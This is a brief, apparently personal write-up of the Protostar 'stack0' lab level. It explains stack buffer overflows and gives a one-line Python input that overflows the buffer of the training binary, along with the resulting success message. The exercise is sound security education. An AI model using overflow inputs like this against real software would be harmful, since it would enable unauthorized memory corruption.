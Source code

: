 # Link
https://exploit-exercises.com/protostar/stack0/ 

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

# Solution
user@protostar:/opt/protostar/bin$ python -c 'print "a"*65' | ./stack0

you have changed the 'modified' variable 

# What I learned
